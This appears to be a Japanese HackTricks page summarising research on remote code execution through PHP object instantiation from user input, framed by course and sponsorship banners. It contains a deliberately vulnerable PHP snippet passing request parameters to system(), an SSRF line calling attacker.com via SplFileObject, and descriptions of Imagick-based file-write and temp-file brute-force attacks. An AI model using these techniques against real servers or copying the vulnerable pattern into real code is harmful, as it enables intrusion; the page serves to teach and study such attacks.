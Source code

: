 # PHP - RCE abusing object creation: new $\_GET\["a"]\($\_GET\["b"])

<details>

<summary><strong>ゼロからヒーローまでAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)コレクションを見つける
* **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**に参加するか、[telegramグループ](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)をフォローする。
* **ハッキングトリックを共有するために、[HackTricks](https://github.com/carlospolop/hacktricks)と[HackTricks Cloud](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出する。**

</details>

これは基本的に[https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)の要約です。

## はじめに

`new $_GET["a"]($_GET["a"])`のような任意のオブジェクトの作成は、リモートコード実行（RCE）につながる可能性があります。これについての詳細は[**writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)に記載されています。このドキュメントでは、RCEを達成するためのさまざまな戦略について説明します。

## カスタムクラスまたはオートローディングを介したRCE

`syntax new $a($b)`は、**`$a`**がクラス名を表し、**`$b`**がコンストラクタに渡される最初の引数を表すオブジェクトをインスタンス化するために使用されます。これらの変数は、GET/POSTなどのユーザー入力から取得される可能性があり、文字列または配列であるか、JSONから取得される可能性があり、その他のタイプであるかもしれません。

以下は考えられるコードスニペットです：
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
このインスタンスでは、`$a`を`App`または`App2`に設定し、`$b`をシステムコマンド（例：`uname -a`）に設定すると、そのコマンドが実行されます。

**オートローディング関数**は、直接アクセスできるクラスがない場合に悪用される可能性があります。これらの関数は、必要に応じてファイルからクラスを自動的にロードし、`spl_autoload_register`または`__autoload`を使用して定義されます。
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
## オートローディングの動作はPHPのバージョンによって異なり、異なるRCEの可能性を提供します。

## 組み込みクラスを利用したRCE

**カスタムクラスやオートローダーがない場合**、**組み込みのPHPクラス**がRCEに十分である場合があります。これらのクラスの数は、PHPのバージョンや拡張機能によって100から200の範囲に及ぶことがあります。これらは`get_declared_classes()`を使用してリストアップすることができます。

興味のあるコンストラクタは、リフレクションAPIを使用して特定できます。以下の例とリンク[https://3v4l.org/2JEGF](https://3v4l.org/2JEGF)に示されているように。

**特定のメソッドを介したRCEには次のものが含まれます:**

### **SSRF + Pharデシリアライゼーション**

`SplFileObject`クラスは、そのコンストラクタを介してSSRFを可能にし、任意のURLへの接続を許可します。
```php
new SplFileObject('http://attacker.com/');
```
SSRFは、PHPの8.0より前のバージョンでPharプロトコルを使用して逆シリアル化攻撃につながる可能性があります。

### **PDOの悪用**

PDOクラスのコンストラクタを利用すると、DSN文字列を介してデータベースへの接続が可能になり、ファイルの作成やその他の相互作用が可能になります。
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

PHPのバージョン5.3.22および5.4.12までは、`SoapClient`および`SimpleXMLElement`のコンストラクタを介してXXE攻撃に対して脆弱でしたが、libxml2のバージョンに依存します。

## Imagick拡張機能を介したRCE

**プロジェクトの依存関係**の分析において、**Imagick**が新しいオブジェクトをインスタンス化することで**コマンドの実行**に利用できることが発見されました。これは脆弱性を悪用する機会を提供します。

### VIDパーサー

ファイルシステム内の任意の指定されたパスにコンテンツを書き込むVIDパーサー機能が特定されました。これにより、PHPシェルをWebアクセス可能なディレクトリに配置して、リモートコード実行（RCE）を達成することができます。

#### VIDパーサー + ファイルアップロード

PHPはアップロードされたファイルを一時的に`/tmp/phpXXXXXX`に保存することがわかっています。 ImagickのVIDパーサーは、**msl**プロトコルを利用してファイルパス内のワイルドカードを処理し、一時ファイルを選択した場所に転送することができます。この方法は、ファイルシステム内での任意のファイル書き込みを達成するための追加のアプローチを提供します。

### PHPクラッシュ + ブルートフォース

[**元の解説**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)に記載されている方法は、削除前にサーバーをクラッシュさせるファイルをアップロードすることです。一時ファイルの名前をブルートフォースすることで、Imagickが任意のPHPコードを実行できるようになります。ただし、このテクニックは、古いバージョンのImageMagickでのみ効果的であることがわかりました。

## 参考文献

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

<details>

<summary><strong>ゼロからヒーローまでのAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[NFTs](https://opensea.io/collection/the-peass-family)コレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)を**フォロー**する。
* **HackTricks**および**HackTricks Cloud**のGitHubリポジトリにPRを提出して、あなたのハッキングトリックを共有してください。

</details>
